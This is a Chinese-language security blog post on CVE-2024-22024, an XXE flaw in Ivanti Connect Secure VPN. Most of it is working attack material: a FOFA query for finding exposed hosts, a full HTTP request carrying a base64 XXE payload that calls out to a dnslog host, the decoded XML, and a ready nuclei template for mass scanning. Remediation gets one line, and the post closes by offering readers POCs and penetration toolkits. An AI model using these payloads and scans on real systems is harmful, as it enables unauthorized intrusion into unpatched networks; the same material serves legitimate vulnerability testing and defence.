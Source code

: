 #  CVE-2024-22024   
原创 fgz  AI与网安   2024-02-27 07:00  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
该漏洞EXP已公开传播，漏洞利用成本极低，建议您立即关注并修复。  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
Ivanti Pulse Connect Secure VPN XXE 漏洞  
  
  
**先介绍下什么是XXE漏洞:**  
  
    XXE漏洞全称XML External Entity Injection即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等危害。xxe漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件。  
  
　　XXE漏洞是针对使用XML交互的Web应用程序的攻击方法，在XXE漏洞的基础上，发展出了Blind XXE漏洞。目前来看，XML文件作为配置文件（Spring、Struts2等）、文档结构说明文件（PDF、RSS等）、图片格式文件（SVG header）应用比较广泛，此外，网上有一些在线XML格式化工具也存在过问题。  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
Ivanti Pulse Connect Secure VPN  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BM1SOtE51IKYHFicmdVXb2GfCZjb29XZP1OMMv6b7pIrSiajYZsGvfdtyBpVlIKO7sQLarSicXC3otYg/640?wx_fmt=png&from=appmsg "")  
  
  
03  
  
—  
  
漏洞描述  
  
  
2024年2月13日互联网上披露 CVE-2024-22024 Ivanti Pulse Connect Secure VPN XXE 漏洞，攻击者可构造恶意请求触发XXE，结合相关功能造成远程代码执行。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
body="welcome.cgi?p=logo"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BM1SOtE51IKYHFicmdVXb2GfX4kYuPlZemhnlVQS1rs6jSSNIjpnhUGEV2A7CgVNfswmyzMsoUG2JQ/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
漏洞复现  
  
  
该漏洞需要借助dnslog来复现，首先注册一个dnslog平台的账号，用于回显，如http://dnslog.pw/dns/?&monitor=true，注册好之后向靶场发送如下数据包，让靶场解析xml数据然后访问dns  
```
POST /dana-na/auth/saml-sso.cgi HTTP/1.1
Host: 192.168.40.130:111
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.93 Safari/537.36
Connection: close
Content-Length: 204
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

SAMLRequest=PD94bWwgdmVyc2lvbj0iMS4wIiA/PjwhRE9DVFlQRSByb290IFs8IUVOVElUWSAlIHdhdGNoVG93ciBTWVNURU0KICAgICJodHRwOi8vYzJ2a2J3YnMuZG5zbG9nLnB3L3giPiAld2F0Y2hUb3dyO10+PHI+PC9yPg==
```  
  
其中  
SAMLRequest的值是xml文件内容的base64值，xml文件如下  
```
<?xml version="1.0" ?><!DOCTYPE root [<!ENTITY % watchTowr SYSTEM
    "http://c2vkbwbs.dnslog.pw/x"> %watchTowr;]><r></r>
```  
  
  
在DNSlog平台能看到一条访问记录  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPxe8zs6eN3AwnSibNIoPrY5ibBibob21K4523dlxeJsBYpwthtQPjzH7N6d5X5n9ZYWPyqsOvsEN3ww/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
批量扫描poc  
  
  
nuclei poc文件内容如下  
```
id: CVE-2024-22024

info:
  name: Ivanti Connect Secure - XXE
  author: watchTowr
  severity: high
  description: |
    Ivanti Connect Secure is vulnerable to XXE (XML External Entity) injection.
  impact: |
    Successful exploitation of this vulnerability could lead to unauthorized access to sensitive information or remote code execution.
  remediation: |
    Apply the latest security patches or updates provided by Ivanti to fix the XXE vulnerability.
  reference:
    - https://labs.watchtowr.com/are-we-now-part-of-ivanti/
    - https://twitter.com/h4x0r_dz/status/1755849867149103106/photo/1
  metadata:
    max-request: 1
    vendor: ivanti
    product: "connect_secure"
    shodan-query: "html:\"welcome.cgi?p=logo\""
  tags: cve,cve2024,kev,xxe,ivanti

variables:
  payload: '<?xml version="1.0" ?><!DOCTYPE root [<!ENTITY % watchTowr SYSTEM
    "http://{{interactsh-url}}/x"> %watchTowr;]><r></r>'

http:
  - raw:
      - |
        POST /dana-na/auth/saml-sso.cgi HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        SAMLRequest={{base64(payload)}}

    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol  # Confirms the DNS Interaction
        words:
          - "dns"

      - type: word
        part: body
        words:
          - '/dana-na/'
          - 'WriteCSS'
        condition: and
# digest: 490a0046304402206a39800bff0d9ca85a05e3686a0e246f8d5504a38e8501a1d7e8684ae6f2853002205ba7c74bb1f99cacf693e8a5a1cd429dcd7e52fab188beb8c95b934e4aabcd57:922c64590222798bb761d5b6d8e72950
```  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
08  
  
—  
  
新粉丝福利领取  
  
  
在公众号主页或者文章末尾点击发送消息免费领取。  
  
发送【  
电子书】关键字获取电子书  
  
发送【  
POC】关键字获取POC  
  
发送【  
工具】获取渗透工具包  
  
  
